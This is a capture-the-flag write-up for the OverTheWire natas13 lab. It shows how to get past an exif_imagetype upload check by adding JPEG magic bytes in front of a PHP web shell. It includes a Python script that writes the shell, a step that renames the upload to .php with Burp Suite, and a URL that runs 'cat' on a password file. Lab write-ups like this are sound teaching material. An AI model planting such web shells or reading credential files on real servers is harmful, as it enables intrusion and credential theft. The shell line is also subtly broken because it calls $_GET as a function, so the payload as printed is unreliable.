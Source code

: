 By looking at the source code the challenge gave us, there are some interesting points.

```html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
```

As we can see, the filename is coded by a php function appended with a jpg extention.

Here is what the php code looks like

```php
<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 
     
    $err=$_FILES['uploadedfile']['error']; 
    if($err){ 
        if($err === 2){ 
            echo "The uploaded file exceeds MAX_FILE_SIZE"; 
        } else{ 
            echo "Something went wrong :/"; 
        } 
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 
```

Looking into the if statement, the server checks the image type with **exif\_imagetype**, lets take a look at the php manual of it.

```
exif_imagetype() reads the first bytes of an image and checks its signature.
```

Basically, the function checks the **Magic number** of the file.
The Magic number of jpeg files is **FF D8 FF**

Lets create a file named **shell.jpeg**.
I created a liitle python script to write the magic number and the php code.

```python
fd = open('shell.jpeg', 'w')
fd.write('\xFF\xD8\xFF' + '<?php passthru($_GET("cmd")); ?>')
fd.close()
```

I use Burp Suite to intercept the upload request and modify the **RandomString.jpg** to **shell.php**.

We can now make a GET request to shell.php file and use parameters to show the password
```
http://natas13.natas.labs.overthewire.org/upload/jwsa8f7ygt.php?cmd=cat%20/etc/natas_webpass/natas14
```


